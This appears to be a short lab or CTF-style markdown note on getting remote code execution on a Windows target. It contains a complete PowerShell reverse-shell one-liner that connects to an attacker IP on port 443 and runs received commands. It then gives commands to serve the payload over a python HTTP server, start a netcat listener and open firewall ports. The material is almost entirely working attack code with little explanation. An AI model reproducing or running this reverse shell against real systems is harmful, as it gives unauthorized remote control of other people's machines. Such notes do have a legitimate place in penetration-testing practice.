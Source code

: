 # UP A FILE SERVER

to create the payload in your machine to pass to the server

this powershell code will get a RCE

- save this in a file *shell.ps1*

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```markdown
# Up a webserver in the host to hospedate the file with python
> python3 -m http.server 80

# Start a NETCAT listener
> nc -lvnp 443

# Allow reverse 80 - 443 port connection on the host
> ufw allow from 10.10.10.27 proto tcp to any port 80,443
```